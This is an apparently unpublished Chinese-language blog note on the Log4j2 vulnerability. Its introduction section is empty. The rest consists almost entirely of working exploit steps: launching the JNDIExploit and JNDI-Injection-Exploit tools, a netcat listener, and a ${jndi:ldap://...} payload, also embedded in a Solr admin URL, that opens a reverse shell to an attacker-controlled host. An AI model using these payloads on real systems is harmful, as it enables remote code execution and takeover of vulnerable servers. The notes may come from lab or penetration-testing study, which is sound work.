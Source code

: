 ```yaml
---
layout: post
title: log4j2漏洞
subtitle: log4j2漏洞
date: 2024-09-18 09:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: 
published: false
---
```

## 漏洞介绍


## JNDIExploit使用

[0x727/JNDIExploit: 一款用于JNDI注入利用的工具](https://github.com/0x727/JNDIExploit)

参考：[JNDIExploit使用 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/337333.html)

```
Usage: java -jar JNDIExploit.jar [options]
Options:
* -i, --ip Local ip address
-l, --ldapPort Ldap bind port (default: 1389)
-p, --httpPort Http bind port (default: 8080)
-u, --usage Show usage (default: false)
-h, --help Show this help
```

```shell
java -jar JNDIExploit-1.2-SNAPSHOT.jar -l 8888 -p 6666 -i 192.168.242.4
```

开启监听

```shell
nc -lvvp 10010
```

```shell
## poc
${jndi:ldap://192.168.242.4:8888/Basic/ReverseShell/192.168.242.4/10010}

http://your-ip/solr/admin/cores?action=${jndi:ldap://192.168.242.4:8888/Basic/ReverseShell/192.168.242.4/10010}
```

## JNDI-Injection-Exploit 使用

[sayers522/JNDI-Injection-Exploit: JNDI命令注入利用](https://github.com/sayers522/JNDI-Injection-Exploit)

编译
```shell
mvn clean package -DskipTests
```

命令：

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /System/Applications/Calendar.app" -A 127.0.0.1
```
